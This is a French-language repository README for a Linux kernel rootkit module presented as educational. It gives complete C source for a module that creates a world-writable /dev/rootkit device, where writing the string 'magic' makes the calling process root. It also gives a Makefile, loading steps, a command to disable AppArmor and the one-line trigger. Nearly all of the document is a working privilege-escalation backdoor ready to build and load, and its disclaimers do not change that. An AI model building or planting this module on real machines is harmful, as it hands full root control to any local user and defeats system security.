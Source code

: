 # 🐧 Linux Kernel Rootkit Module — Privilege Escalation (Educational)

> ⚠️ **Disclaimer**  
> Ce module est uniquement destiné à l’**apprentissage** et à la **recherche en cybersécurité**.  
> Ne l’exécute que dans une **VM isolée** avec des snapshots.  
> Ne jamais utiliser en production : il modifie les **credentials kernel** et peut rendre ton système instable.  

---

## 📌 Description

Ce projet implémente un **Linux Kernel Module (LKM)** éducatif qui crée un **périphérique caractère** :  
`/dev/rootkit`  

- Écrire une chaîne **magique** déclenche une élévation de privilèges → l’utilisateur courant devient **root**.  
- Le module utilise un **misc device** pour simplifier l’implémentation.  

---

## 🛠️ Code Source

Fichier : `rootkit.c`

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/fs.h>
#include <linux/miscdevice.h>
#include <linux/cred.h>
#include <linux/uaccess.h>
#include <linux/printk.h>

#define MAGIC "magic"  // Magic string to trigger escalation

static ssize_t rootkit_write(struct file *file, const char __user *buf, size_t count, loff_t *ppos) {
    char kbuf[16];
    size_t len = min(count, sizeof(kbuf) - 1);

    if (copy_from_user(kbuf, buf, len)) {
        pr_err("copy_from_user failed\n");
        return -EFAULT;
    }
    kbuf[len] = '\0';

    if (strncmp(kbuf, MAGIC, strlen(MAGIC)) == 0) {
        extern struct task_struct init_task;
        struct cred *new_cred = prepare_kernel_cred(&init_task);
        if (!new_cred) {
            pr_err("Failed to prepare kernel credentials\n");
            return -ENOMEM;
        }
        commit_creds(new_cred);
        pr_info("[+] Current process escalated to root\n");
    } else {
        pr_info("[-] Invalid magic string\n");
    }

    return count;
}

static const struct file_operations rootkit_fops = {
    .write = rootkit_write,
};

static struct miscdevice rootkit_dev = {
    .minor = MISC_DYNAMIC_MINOR,
    .name = "rootkit",
    .fops = &rootkit_fops,
    .mode = 0666,
};

static int __init rootkit_init(void) {
    int ret = misc_register(&rootkit_dev);
    if (ret) {
        pr_err("Failed to register misc device\n");
        return ret;
    }
    pr_info("Rootkit device loaded: /dev/rootkit\n");
    return 0;
}

static void __exit rootkit_exit(void) {
    misc_deregister(&rootkit_dev);
    pr_info("Rootkit device unloaded\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Grok");
MODULE_DESCRIPTION("Educational rootkit module with char device for privilege escalation");
```

---

## ⚙️ Préparation de l’Environnement

Installer les headers du kernel :  
```bash
sudo apt update && sudo apt install linux-headers-$(uname -r)
```

Créer un **Makefile** :  
```makefile
obj-m += rootkit.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

---

## 🚀 Compilation & Chargement

1. Désactiver temporairement AppArmor (si activé) :  
   ```bash
   sudo systemctl disable --now apparmor
   ```

   Pour le réactiver :  
   ```bash
   sudo systemctl enable --now apparmor
   ```

2. Compiler le module :  
   ```bash
   make
   ```

3. Charger le module :  
   ```bash
   sudo insmod rootkit.ko
   ```

4. Vérifier que le périphérique existe :  
   ```bash
   ls /dev/rootkit
   ```

---

## 🔑 Exploitation (Test)

Écrire la chaîne magique pour escalader :  
```bash
echo "magic" > /dev/rootkit
```

Vérifier l’identité :  
```bash
id
```

---

## ✅ Résumé

- 📂 Module installé : `/dev/rootkit`  
- 🔑 Chaîne magique : `"magic"`  
- 🧑‍💻 Effet : Escalade des privilèges → utilisateur → root  

---

> ✨ Utilisation strictement pédagogique.  
> ⚠️ À tester uniquement dans un **environnement contrôlé**.

